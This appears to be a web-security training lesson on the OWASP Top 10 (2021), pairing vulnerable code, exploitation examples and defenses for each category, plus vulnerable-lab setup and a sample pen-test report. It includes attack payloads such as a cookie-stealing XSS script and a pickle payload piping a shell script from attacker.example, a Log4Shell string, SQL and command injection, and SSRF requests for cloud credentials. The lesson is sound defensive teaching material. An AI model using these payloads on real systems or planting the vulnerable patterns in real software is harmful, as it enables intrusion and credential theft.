

# OWASP Top 10 (2021)

The **Open Web Application Security Project (OWASP)** is a non-profit foundation that publishes free, vendor-neutral guidance on web application security. Its most widely known deliverable is the **OWASP Top 10** — a ranked list of the most critical risks to web applications, refreshed every three to four years using survey data and CVE telemetry from hundreds of organizations. Security teams use it to scope pen-tests; developers use it as a "don't ship without thinking about these" checklist; auditors use it as shorthand in reports.

The **2021 edition** is the current release and is the baseline this lesson is built on. A **2025 edition** is in draft at the time of writing — once it lands it will shift some rankings and merge a few categories, but the 2021 list is what every real engagement, policy document and bug-bounty scope still refers to today. When 2025 is published, treat it as an incremental update, not a rewrite: the core categories (access control, injection, misconfiguration) will not disappear.

One important point up-front: the Top 10 is *a starter kit*, not a complete checklist. A clean Top-10 scan does not mean the app is secure. For a thorough audit use the **OWASP Application Security Verification Standard (ASVS)**; the Top 10 is the minimum bar, ASVS is the full bar.

## The list at a glance

| Rank | Category | One-line summary | Typical example |
|---|---|---|---|
| **A01:2021** | Broken Access Control | Users reach data or actions they should not | Change `?userId=1234` to `5678` and read someone else's cart |
| **A02:2021** | Cryptographic Failures | Sensitive data in transit or at rest is weakly protected | Passwords stored as MD5; login page served over HTTP |
| **A03:2021** | Injection | Untrusted input ends up in a query/command interpreter | `' OR 1=1 --` on the login form |
| **A04:2021** | Insecure Design | The design itself is flawed — can't be patched, only rebuilt | Password reset via "security questions" |
| **A05:2021** | Security Misconfiguration | Default creds, verbose errors, unused services left on | `admin/admin` on the admin panel; directory listing enabled |
| **A06:2021** | Vulnerable & Outdated Components | Running libraries with known CVEs | Log4j 2.14, Struts 2.3, jQuery 1.4 |
| **A07:2021** | Identification & Authentication Failures | Weak login, session or MFA handling | No account lockout; session ID in the URL |
| **A08:2021** | Software & Data Integrity Failures | Supply-chain and deserialization trust failures | SolarWinds-style poisoned update; unsigned YAML deserialization |
| **A09:2021** | Security Logging & Monitoring Failures | Attacks happen and no one notices | No alert after 10 000 failed logins |
| **A10:2021** | Server-Side Request Forgery (SSRF) | Server fetches a URL the attacker controls | Hit `http://169.254.169.254/` from the app to steal cloud creds |

Read the rest of this page linearly or jump to a category — each of the ten has the same micro-structure: plain-English explanation, vulnerable code, exploitation, defenses.

---

### A01:2021 — Broken Access Control

Access control is "who is allowed to do what." Broken access control means the application trusts the request without re-checking it against the logged-in user's permissions — so a logged-in customer can reach admin URLs (**vertical** privilege escalation) or see another customer's data (**horizontal** escalation, also called **IDOR** — Insecure Direct Object Reference). It is the single most common web vulnerability in the wild because it is easy to introduce: one missing `if user.is_admin:` turns a safe endpoint into an exploitable one.

**Vulnerable code (Flask/Python):**

```python
@app.route("/api/invoices/<int:invoice_id>")
@login_required
def get_invoice(invoice_id):
    # Only checks "are you logged in" — never "is this invoice yours"
    inv = Invoice.query.get(invoice_id)
    return jsonify(inv.to_dict())
```

**Exploitation:**

```
GET /api/invoices/1001  HTTP/1.1       # Alice's own invoice — fine
GET /api/invoices/1002  HTTP/1.1       # Bob's invoice — also returned (IDOR)
GET /api/invoices/1              HTTP/1.1  # first customer ever — leaked
GET /admin/users                  HTTP/1.1  # standard user hits admin panel directly
```

A related pattern is tampering a JWT's `role` claim from `"user"` to `"admin"` when the server does not verify the signature, or flipping a hidden form field `is_admin=0` to `is_admin=1`.

**Defenses:**

- **Enforce ownership on every object fetch.** Replace `Invoice.query.get(id)` with `Invoice.query.filter_by(id=id, owner_id=current_user.id).first_or_404()`.
- **Deny by default.** Controllers should require an explicit allow decision — frameworks like Django REST's `permission_classes` or Rails' Pundit force you to state the rule.
- **Use opaque, unguessable identifiers** (UUIDv4 or signed IDs) so guessing-based IDOR is harder, but never rely on obscurity alone.
- **Validate JWT signatures server-side** and never accept `alg: none`. Pin the algorithm to e.g. `RS256`.
- **Run automated tests against the authz layer** — log in as user A and assert every one of user B's resources returns 403/404.

---

### A02:2021 — Cryptographic Failures

Previously called "Sensitive Data Exposure," this category is about the *protection of data* — in transit (TLS) and at rest (hashing/encryption). Failures mean data crosses the wire in cleartext, passwords are stored with weak hashes, secrets are baked into the binary, or certificates are expired or self-signed and silently accepted. The impact is disclosure: the attacker walks away with password databases, PII, card data, medical records.

**Vulnerable code (Node.js / Express):**

```javascript
// Plain MD5 password hashing — catastrophic
const crypto = require("crypto");
function hashPassword(pw) {
    return crypto.createHash("md5").update(pw).digest("hex");
}

// Login page served over HTTP
app.listen(80);
```

**Exploitation:**

An attacker who gets a copy of the `users` table (via SQLi, backup leak, etc.) runs a rainbow-table lookup or hashcat against it. MD5 of `Password1` cracks in microseconds:

```
hashcat -m 0 hashes.txt rockyou.txt
# 7c6a180b36896a0a8c02787eeafb0e4c:Password1
```

On the wire, anyone on the same Wi-Fi watches logins in Wireshark as plain HTTP POSTs with `username=alice&password=Pa55word`.

**Defenses:**

- **Hash passwords with a memory-hard KDF.** Use `argon2id` (preferred) or `bcrypt` with cost ≥ 12. Never MD5, SHA-1, or plain SHA-256.
- **TLS everywhere.** Serve every page (not just `/login`) over HTTPS, with HSTS: `Strict-Transport-Security: max-age=31536000; includeSubDomains; preload`.
- **Encrypt PII and card data at rest** using AES-256-GCM with keys stored in a KMS (AWS KMS, Azure Key Vault, HashiCorp Vault), not in a config file.
- **Kill weak crypto.** Disable TLS 1.0/1.1, RC4, 3DES; turn off `SSLv3`; require forward secrecy (ECDHE).
- **Rotate and monitor certificates.** Use Let's Encrypt + automation, and alert on certificates that expire in under 14 days.

---

### A03:2021 — Injection

Injection happens whenever untrusted input is concatenated into a query or command that a downstream interpreter (SQL, shell, LDAP, XPath, NoSQL engine, template engine) then evaluates. The 2021 merge moved **Cross-Site Scripting (XSS)** into this category — XSS is injection into the browser's HTML/JS interpreter. Impact ranges from "dump the database" to "execute shell commands as the webapp user" to "steal every session cookie that hits the page."

**Vulnerable code (SQLi, Python):**

```python
# String concatenation — the classic
username = request.form["username"]
password = request.form["password"]
sql = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
cursor.execute(sql)
```

**Exploitation (SQLi):**

```
username = admin' --
password = anything
```

Final query becomes `SELECT * FROM users WHERE username='admin' --' AND password='anything'` — the `--` comments out the password check and logs the attacker in as admin. The union-based variant `' UNION SELECT username, password FROM users --` dumps every row.

**Vulnerable code (Command injection, Node.js):**

```javascript
const { exec } = require("child_process");
app.get("/ping", (req, res) => {
    exec("ping -c 1 " + req.query.host, (err, out) => res.send(out));
});
```

Exploit: `GET /ping?host=127.0.0.1;cat /etc/passwd` — the shell runs `ping` then `cat`.

**Vulnerable code (Stored XSS, PHP):**

```php
// User posts a comment; site echoes it back raw
echo "<div class='comment'>" . $_POST["comment"] . "</div>";
```

Exploit: submit `<script>fetch("https://attacker.example/c?"+document.cookie)</script>` as the comment. Every future visitor runs it and their session cookie is exfiltrated.

**Defenses:**

- **Parameterized queries everywhere** — `cursor.execute("SELECT * FROM users WHERE username = %s AND password = %s", (u, p))`. The driver sends the SQL and the values down two different channels; string escaping is handled by the DB.
- **Use an ORM** (SQLAlchemy, Django ORM, ActiveRecord, Sequelize) — they parameterize by default. Be suspicious of any `raw()` / `exec()` escape hatches.
- **Never pass user input into a shell.** Use `subprocess.run([...], shell=False)` with an argv list in Python, or `execFile`/`spawn` in Node with an array, never a string.
- **Context-aware output encoding** for XSS — `{{ value }}` in Jinja / React automatically HTML-encodes. For HTML attributes and URLs, use the framework's attribute/URL encoder.
- **Content Security Policy** — `Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-<random>'`. Even if XSS lands, the payload's external `fetch()` is blocked.

Visual flow of a stored-XSS attack:



---

### A04:2021 — Insecure Design

This category is different from the others: it's not a bug you patch, it's a *design* flaw. If the password-reset flow asks "what was your first pet's name?" then no amount of code review on that function will fix it — the design is wrong. Insecure Design is what you get when threat modeling is skipped and security requirements are not written down before development starts. You cannot refactor your way out of it; you have to redesign.

**Vulnerable pattern (password reset via security questions):**

```python
@app.post("/forgot")
def forgot():
    u = User.get(request.form["username"])
    if u.security_answer == request.form["answer"]:
        login_user(u)   # insecure *by design*
        return redirect("/")
```

**Exploitation:**

An attacker who knows Alice's first pet (public-record or LinkedIn research) resets her password. No bug in the code — the design trusts knowledge that is not a secret. Similarly:

- A group-booking discount capped at 15 people with no server-side maximum — book 600 seats across every cinema in one request and the company loses a day of revenue.
- A "gift card + refund" flow where both are processed async without a lock — race-condition to infinite money.
- An API that lets you update any field of your own user record including `is_admin`.

**Defenses:**

- **Threat-model every feature before implementation.** A whiteboard session using STRIDE (Spoofing, Tampering, Repudiation, Information disclosure, Denial of service, Elevation of privilege) catches flaws while they cost hours, not weeks.
- **Write security requirements alongside functional requirements.** "Password reset must require possession of the registered email or an MFA device" is a requirement; "shouldn't be hackable" is not.
- **Use reference designs** — OWASP ASVS Chapter 1, NIST 800-63B for identity — instead of inventing flows.
- **Rate-limit and abuse-limit business actions** server-side, not client-side: max 5 bookings/minute/user, max 2 password resets/hour/IP.
- **Map unhappy paths.** For every happy path ("user books a ticket"), write down what happens when the user lies, repeats, stops halfway, or does it 10 000 times in a script.

---

### A05:2021 — Security Misconfiguration

Probably the easiest category to introduce and the easiest to catch. It covers everything that lives outside application code: leftover default credentials, verbose stack traces returned to users, directory listings enabled, unused services running, permissive CORS, missing security headers, open S3 buckets, debug mode in production. An attacker scans 10 000 hosts, notices `X-Debug: True` on one of them, and has a foothold before lunch.

**Vulnerable configuration (Django):**

```python
# settings.py
DEBUG = True
ALLOWED_HOSTS = ["*"]
SECRET_KEY = "django-insecure-replace-me"
```

And in nginx:

```nginx
server {
    listen 80;                      # no TLS
    root /var/www/app;
    autoindex on;                   # directory listing = freebie recon
    error_page 500 /debug.html;     # full stack trace to attackers
}
```

**Exploitation:**

- Hit `/nonexistent` on a Django app with `DEBUG=True` → full stack trace, settings, DB connection string.
- Hit `/backups/` and get `autoindex on;` → download `db_backup_2025-12-01.sql`.
- Log in with `admin/admin` to Jenkins, Tomcat Manager, Grafana, or a router web UI.
- Fetch `/.git/config` — the entire repo is served as static files.

**Defenses:**

- **Disable debug mode in production.** `DEBUG=False`, and set `ALLOWED_HOSTS` to a concrete list.
- **Change every default credential** before anything leaves staging. Maintain an inventory of admin UIs (Jenkins, Grafana, RabbitMQ management, database consoles).
- **Ship security headers.** At minimum: `Strict-Transport-Security`, `Content-Security-Policy`, `X-Content-Type-Options: nosniff`, `Referrer-Policy: strict-origin-when-cross-origin`, `Permissions-Policy`.
- **Turn off what you don't use.** `autoindex off`, remove sample apps, unused database users, unused ports, admin panels not required in prod.
- **Automate hardening.** Ansible/Terraform baselines, CIS benchmarks, container images built from scratch rather than `latest`. Run `nikto`, `testssl.sh`, `trivy config` in CI.

---

### A06:2021 — Vulnerable & Outdated Components

Every modern app stands on a mountain of third-party code: npm, pip, Maven, NuGet, system packages, base Docker images, the runtime itself. When one of those components has a public CVE and you haven't patched, you're vulnerable by transitive inheritance. **Log4Shell (CVE-2021-44228)** in Log4j 2.x and **CVE-2017-5638** in Apache Struts 2 (the Equifax breach) are the canonical examples — single-line payloads against widely-used libraries caused tens of thousands of breaches.

**Vulnerable code (Java with Log4j):**

```java
// Vulnerable Log4j 2.14 — any logged user input can trigger JNDI lookup
logger.info("User-Agent: " + request.getHeader("User-Agent"));
```

**Exploitation (Log4Shell):**

```
User-Agent: ${jndi:ldap://attacker.example/Exploit}
```

Log4j parses the `${...}` as a lookup, contacts the attacker's LDAP server, downloads a malicious Java class, and executes it — remote code execution from a single header.

Similarly, a site running **Struts 2.3.5 – 2.3.31 / 2.5 – 2.5.10** is exploited with a single crafted `Content-Type` header that delivers an OGNL expression to RCE.

**Defenses:**

- **Keep a live inventory** (Software Bill of Materials — SBOM) of every component and its version. Tools: `syft`, `cyclonedx-bom`, GitHub's dependency graph.
- **Scan continuously.** `npm audit`, `pip-audit`, OWASP Dependency-Check, Trivy, Snyk, Dependabot, Renovate. Fail the build on a new critical CVE.
- **Prefer maintained, signed packages from official registries.** Pin versions by hash where the ecosystem supports it (`package-lock.json`, `requirements.txt` with hashes, `Gemfile.lock`).
- **Subscribe to vendor advisories and CISA KEV** (Known Exploited Vulnerabilities). Treat KEV entries as "patch this week."
- **If you can't patch, virtual-patch.** A WAF rule blocking `${jndi:` strings is not a real fix, but it buys time.

---

### A07:2021 — Identification & Authentication Failures

Everything around "who are you?" and "are you still you?" — logins, session cookies, password resets, MFA. Weak password rules, no lockout after 10 000 failed attempts, session IDs in URLs, session fixation (the ID you get before login is the same one you keep after), no MFA on admin accounts, "security question" recovery. **Credential stuffing** attacks against sites without MFA or rate-limiting succeed on 0.5–2% of accounts — enough to monetize any popular service.

**Vulnerable code (Express session fixation + weak policy):**

```javascript
app.use(session({
    secret: "s3cr3t",
    resave: false,
    saveUninitialized: true,         // new session for every visitor
    cookie: { secure: false, httpOnly: false }  // cookie exposed to JS, no TLS required
}));

app.post("/login", (req, res) => {
    const u = users.find(u => u.name === req.body.u && u.pw === req.body.p);
    if (u) {
        req.session.user = u.name;   // session ID is NOT regenerated on login
        res.redirect("/dashboard");
    }
});
```

**Exploitation:**

- Attacker visits the site, gets `SESSIONID=abc123` as an anonymous user, tricks Alice into clicking `https://app/login?session=abc123`. Alice logs in, the server keeps the same ID, attacker now holds an authenticated session.
- Credential stuffing with a 10M-entry combo list from HaveIBeenPwned — no lockout, no MFA, 0.8% hit rate = 80 000 accounts.
- `GET /reset?token=000001` through `999999` — token is a small incrementing integer.

**Defenses:**

- **Regenerate the session ID on login** and again on privilege change. In Express: `req.session.regenerate(...)`. Kill any pre-auth ID.
- **MFA for every user**, mandatory for admins. TOTP (Google Authenticator), WebAuthn/passkeys preferred over SMS.
- **Rate-limit logins** per account and per IP — 5 failures in 5 minutes = lockout or CAPTCHA. Send the alert to the user.
- **Ban common passwords.** Integrate the HaveIBeenPwned `/range` API so `Password1!` is rejected at signup and on change.
- **Cookies: `Secure; HttpOnly; SameSite=Lax`** (or `Strict` for high-sensitivity apps). Never `HttpOnly: false` on a session cookie.

---

### A08:2021 — Software & Data Integrity Failures

Two linked problems: (1) **supply-chain compromise** — you trust code, plugins, or updates without verifying signatures, and an attacker poisons the pipeline (the **SolarWinds** attack put a backdoor into a signed `SolarWinds.Orion.Core.BusinessLayer.dll` that went out to 18 000 customers); (2) **insecure deserialization** — you accept a serialized object from a user and reconstruct it, and the deserializer can be tricked into constructing classes that execute code during deserialization (`pickle.loads` in Python, `ObjectInputStream` in Java, `unserialize` in PHP).

**Vulnerable code (Python pickle):**

```python
import pickle, base64
@app.post("/import")
def import_profile():
    blob = base64.b64decode(request.form["data"])
    profile = pickle.loads(blob)    # attacker controls blob -> RCE
    return f"Imported {profile.name}"
```

**Exploitation:**

```python
import pickle, base64, os
class RCE:
    def __reduce__(self):
        return (os.system, ("curl attacker.example/shell.sh | sh",))
print(base64.b64encode(pickle.dumps(RCE())).decode())
```

Submit the base64 blob, the server `pickle.loads`-es it, and the attacker's shell runs. For Java, the `ysoserial` tool generates equivalent payloads against `ObjectInputStream`.

Supply-chain equivalent: an attacker publishes `reuests` (typo of `requests`) on PyPI with a post-install hook that exfiltrates environment variables; one developer types it wrong in `requirements.txt` and the CI runner leaks its AWS keys.

**Defenses:**

- **Never deserialize untrusted data with a native deserializer.** Use a structured format — JSON + a schema (Pydantic, Zod, JSON Schema) — which cannot instantiate arbitrary classes.
- **Sign and verify artifacts.** Package signatures (cosign / Sigstore), Git commit signatures, npm provenance. Pin dependencies by hash.
- **Lock down your CI/CD.** No third-party actions without a pinned SHA; secrets scoped per job; protected branches for release.
- **SBOM + provenance** (SLSA level 2+). Know exactly what is in your build and where it came from.
- **Monitor for unexpected changes** in installed packages (Falco, Tetragon) and for outbound connections from build agents.

---

### A09:2021 — Security Logging & Monitoring Failures

The category nobody gets excited about and everybody needs. When logs are missing, incomplete, only stored locally (so the attacker wipes them on the way out), not monitored, or do not alert on anomalies, a breach can run for months before detection. Industry average time-to-detect is still measured in weeks. The impact of this category is **not preventing an attack** — it's making sure you learn about it before the attacker exfiltrates everything and leaves.

**Vulnerable pattern:**

```python
@app.post("/login")
def login():
    u = authenticate(request.form["u"], request.form["p"])
    if u:
        return redirect("/dashboard")
    return "Bad login", 401       # nothing logged, no metric, no alert
```

**Exploitation:**

An attacker runs 50 000 credential-stuffing attempts overnight. Nothing appears in any log. Nothing alerts. In the morning, 400 accounts are compromised and support starts getting "I didn't order that" calls — that is the detection mechanism.

**Defenses:**

- **Log every auth event** (success, failure, lockout, password change, MFA enrollment, privilege change) and every high-value action (admin actions, payments, permission grants). Include user, IP, UA, timestamp, outcome.
- **Ship logs off-box** immediately — central SIEM (Splunk, Elastic, Wazuh, Loki + Grafana). Local-only logs are useless once the host is compromised.
- **Alert on thresholds.** >10 failed logins / user / 10 min; any admin login from a new country; any 5xx spike; any access to `/.git/`, `/.env`, `/admin` from an unusual IP.
- **Structured logs** (JSON) so queries like `level=warn AND path="/login" AND status=401 | stats count by ip` are trivial.
- **Test detection end-to-end.** Run a ZAP or pentest scan and assert that alerts fired. If a pentest produces no alerts, monitoring is broken.

---

### A10:2021 — Server-Side Request Forgery (SSRF)

SSRF is when the server fetches a URL *supplied by the user* without checking where that URL points. The attacker points it at internal services (`http://10.0.0.5/`), at cloud metadata services (`http://169.254.169.254/latest/meta-data/iam/security-credentials/`), or at localhost admin interfaces (`http://127.0.0.1:8500/`). On cloud VMs this typically leaks the instance's IAM credentials — full pivot into the cloud account from a single HTTP request. The **Capital One 2019 breach** was an SSRF that pulled IAM creds from EC2 metadata.

**Vulnerable code (Node.js):**

```javascript
const fetch = require("node-fetch");
app.get("/proxy", async (req, res) => {
    const r = await fetch(req.query.url);     // attacker controls url
    res.send(await r.text());
});
```

**Exploitation:**

```
GET /proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/app-role
GET /proxy?url=http://localhost:6379/           # Redis admin interface
GET /proxy?url=file:///etc/passwd               # file scheme
GET /proxy?url=http://10.0.0.5:8080/admin       # internal service
```

Response contains temporary AWS credentials — the attacker now has the same cloud permissions as the application role.

**Defenses:**

- **Allow-list** outbound destinations — "this feature may only call `api.example.local` and `api.partner.com`," everything else is refused. Rejection happens after DNS resolution, on the resolved IP, not on the hostname (DNS rebinding defeats hostname checks).
- **Block the cloud metadata service** (`169.254.169.254`) at the egress firewall or VPC level. On AWS, require **IMDSv2** (session-token) which mitigates the simplest SSRF patterns.
- **Block RFC1918 and loopback** from the application's egress path unless explicitly required. Same for `169.254.0.0/16`, `::1`, `fc00::/7`.
- **Disable dangerous URL schemes** (`file://`, `gopher://`, `dict://`, `ftp://`). Limit to `https://` (and `http://` if strictly required).
- **Separate network zones.** The web app should not have IP-level reach to the database or to admin interfaces — SSRF is a lot less valuable when there is nothing to talk to.

---

## Hands-on — vulnerable lab setup

All three of these ship deliberately vulnerable — run them on a VM, a home lab, or a scratch cloud instance, never on a machine that has anything real on it.

### OWASP Juice Shop

A modern, JavaScript-single-page vulnerable shop covering the entire Top 10. The fastest to start with.

```bash
docker run --rm -p 3000:3000 bkimminich/juice-shop
# then browse to http://localhost:3000
```

To keep progress across restarts:

```bash
docker volume create juiceshop-data
docker run -d --name juiceshop \
    -p 3000:3000 \
    -v juiceshop-data:/juice-shop/data \
    bkimminich/juice-shop
```

### DVWA — Damn Vulnerable Web Application

Classic PHP/MySQL training app with adjustable difficulty (Low / Medium / High / Impossible — each level demonstrates the defense that closes the previous exploit).

```bash
docker run --rm -it -p 8080:80 vulnerables/web-dvwa
# default creds admin/password, then Setup -> Create Database
```

### bWAPP — Buggy Web Application

100+ labeled vulnerabilities covering edge cases DVWA and Juice Shop skip.

```bash
docker run --rm -d -p 8888:80 raesene/bwapp
# http://localhost:8888/install.php then bee/bug
```

### Three lab tasks to complete

1. **SQLi on the Juice Shop login** — navigate to `/#/login`, submit `email=' OR 1=1--` and any password. You land in the first user's account (usually `admin@juice-sh.op`). Bonus: use Burp to rewrite the request and try `admin@juice-sh.op'--`.
2. **Stored XSS in a comment/review field** — Juice Shop has several. Add a product review containing `<iframe src="javascript:alert(\`xss\`)">` from a product page. Reloading the product triggers the payload for any visitor.
3. **IDOR on the basket endpoint** — log in as user A, open DevTools → Network → add an item to the basket, find the `PUT /api/BasketItems/<id>` or `GET /rest/basket/<id>` call. Replay the same request with your own session cookie but a different basket ID (your own basket is `1`; try `2`, `3`). Juice Shop's `/rest/basket/<id>` returns someone else's cart.

Each task corresponds directly to one of the categories above — SQLi → A03, stored XSS → A03, IDOR → A01.

---

## Worked example — `example.local` internal web app

The scenario: `example.local` runs an internal HR portal built in-house over the last five years by a two-developer team — Python/Flask, PostgreSQL, behind an nginx reverse proxy, accessible inside the corporate network at `hrportal.example.local` and to remote workers via a WAF-fronted public endpoint `hr.example.com`.

The 2026 annual pen-test engagement produced this summary. Mapping to OWASP IDs:

| Finding | OWASP ID | Severity | Resolution |
|---|---|---|---|
| `GET /api/employee/<id>/payslip` returns any employee's payslip | A01 | Critical | **Patched** — ownership check added, RBAC matrix enforced |
| Login passwords stored with unsalted SHA-256 | A02 | Critical | **Patched** — migrated to `argon2id`; old hashes rehashed on next login |
| `/search?q=` reflects input into the HTML page unescaped (reflected XSS) | A03 | High | **Patched** — switched to Jinja autoescape, added CSP |
| `/report/<id>` concatenates `id` into raw SQL | A03 | Critical | **Patched** — parameterized with SQLAlchemy |
| Password reset uses "mother's maiden name" question | A04 | High | **Redesigned** — replaced with email-token flow + MFA |
| Jenkins admin reachable on `10.0.3.14:8080` with `admin/admin` | A05 | Critical | **Patched** — SSO, MFA, VPN-only ACL |
| `requirements.txt` pinned to Flask 1.1.2 (two CVEs), Werkzeug 0.16 | A06 | High | **Patched** — bumped to Flask 3.x; Dependabot enabled |
| No account lockout, no MFA on employee self-service | A07 | High | **Patched** — lockout after 5 failures + TOTP MFA for all users |
| `pickle.loads` used to deserialize HR import templates | A08 | Critical | **Patched** — switched to JSON with Pydantic validation |
| Failed-login events not shipped to SIEM | A09 | Medium | **Patched** — stream to central Wazuh + alerts on >10/min |
| `/proxy-avatar?url=` fetches arbitrary URLs for profile photos | A10 | High | **Mitigated via WAF** — allow-list of three S3 domains enforced in WAF + planned code fix next quarter |

Two findings were **mitigated rather than patched** — the avatar SSRF is blocked by a WAF rule today because the code fix requires a refactor of the image service and was scheduled for the next release. The trade-off was explicitly accepted by the product owner and recorded in the risk register with a 90-day review. This is the right engineering call only if (a) the compensating control is tested and monitored, and (b) there is a calendar-bound commitment to the real fix.

Lessons from the engagement that generalize:

- **A01 is almost always present** somewhere when an app has many object-scoped endpoints; adding automated "log in as A, try to reach B's objects" tests caught three new findings the next quarter.
- **A06 is a moving target** — the portal was clean in March and had two new criticals by October because upstream CVEs landed. Dependency scanning is ongoing, not a one-time task.
- **A04 findings cost 10× more** to fix than A03: rewriting the reset flow took six weeks; rewriting the reflected-XSS output encoding took an afternoon.

---

## Defensive patterns that cut many categories at once

A small number of engineering patterns, applied by default, wipe out big chunks of the Top 10.

**Parameterized queries / ORMs.** Closes A03 SQLi almost entirely. If your codebase never concatenates SQL, a new dev cannot accidentally introduce SQLi.

**Content Security Policy.** `Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-…'; object-src 'none'; base-uri 'self'; frame-ancestors 'self'`. Closes most A03 XSS blast radius even when a sanitization bug slips through.

**Secure-defaults frameworks.** Django, Rails, Laravel, Spring Boot, ASP.NET Core all ship with CSRF tokens, parameterized queries, templating autoescape, secure session cookies, password hashing with strong KDFs — *by default*. A greenfield Django app has to work to be vulnerable to A02/A03/A07; a rolled-from-scratch Express app has to work to be safe.

**A real auth library, not hand-rolled.** Auth0, Okta, Keycloak, AWS Cognito, Azure AD B2C, or your framework's first-party module (Django-AllAuth, Devise). Kills most of A07 — session handling, MFA, password policy, lockout, reset flows are all done.

**SAST + DAST in CI.** SAST (Semgrep, CodeQL, Bandit) reads source code and flags A03/A02/A05 patterns. DAST (OWASP ZAP, Burp) hits the running app from outside and flags A01/A05/A07/A10. Run both on every PR.

**SBOM + dependency scanning.** Trivy, Dependabot, Renovate, Snyk. Closes A06 continuously rather than quarterly.

**Security headers middleware.** A single config block: `Strict-Transport-Security`, `Content-Security-Policy`, `X-Content-Type-Options: nosniff`, `X-Frame-Options: DENY`, `Referrer-Policy: strict-origin-when-cross-origin`, `Permissions-Policy`. Cuts into A02/A03/A05 at once.

**Egress filtering.** Outbound allow-list at the VPC/egress firewall. Closes A10 (SSRF), limits blast radius of A06 and A08 (malicious dependencies can't phone home).

---

## Common misconceptions

- **"XSS is its own category."** Not since 2021 — it's folded into **A03 Injection**. Some older docs, courses and policy templates still list it separately; update them.
- **"Top 10 compliance = secure."** No. The Top 10 is a *starter* list — the minimum bar. **ASVS** (Application Security Verification Standard) is the real checklist and has three graduated levels. Use Top 10 for conversation and triage; use ASVS when you actually need to verify a product.
- **"We don't need to worry about A04 — we patch bugs quickly."** A04 is about *design*, not bugs. No patch closes a business logic flaw in the discount flow; only redesign does.
- **"We have a WAF, so we're covered."** A WAF is a compensating control, not a fix. It helps against A03/A10 and buys time against A06, but does nothing for A01, A04, A07, A08. Treat it as part of defense in depth.
- **"MFA solves A07."** MFA is by far the highest-impact control for A07 but doesn't help against session fixation, missing cookie flags, or auth-bypass logic bugs. Ship MFA *and* fix the rest.
- **"Top 10 2025 will change everything."** The draft keeps the same spirit. Categories shift, names refine — fundamentals (don't concatenate SQL, don't trust user identifiers, patch dependencies, log and monitor) do not.

---

## Key takeaways

- The OWASP Top 10 2021 is a ranked, industry-baseline list of the ten worst-in-practice web application risks; it is what auditors, pen-testers, and bug bounties align on.
- **A01 Broken Access Control** is the most common in real engagements — test every endpoint as "user A accessing user B's data."
- **Injection (A03)** now includes XSS; parameterized queries and context-aware output encoding kill most of it.
- **A04 Insecure Design** is a design problem, not a code problem — threat-model before writing code.
- **A06 Vulnerable Components** is a moving target — SBOM + continuous scanning + Dependabot is non-negotiable.
- **A10 SSRF** is especially dangerous in cloud (metadata service = IAM creds) — egress filter and IMDSv2.
- A handful of patterns (ORMs, CSP, mature frameworks, managed auth, SAST/DAST, SBOM, egress allow-lists) close most of the Top 10 at once.
- The Top 10 is the minimum bar — use **OWASP ASVS** when you need an actual checklist.

---

## References

- **OWASP Top 10 (2021):** https://owasp.org/www-project-top-ten/
- **OWASP ASVS (Application Security Verification Standard):** https://owasp.org/www-project-application-security-verification-standard/
- **OWASP Cheat Sheet Series:** https://cheatsheetseries.owasp.org/
- **OWASP Juice Shop:** https://owasp.org/www-project-juice-shop/
- **DVWA:** https://github.com/digininja/DVWA
- **bWAPP:** http://www.itsecgames.com/
- **OWASP Dependency-Check:** https://owasp.org/www-project-dependency-check/
- **CISA Known Exploited Vulnerabilities catalog:** https://www.cisa.gov/known-exploited-vulnerabilities-catalog
- **NIST SP 800-63B (Digital Identity Guidelines):** https://pages.nist.gov/800-63-3/sp800-63b.html
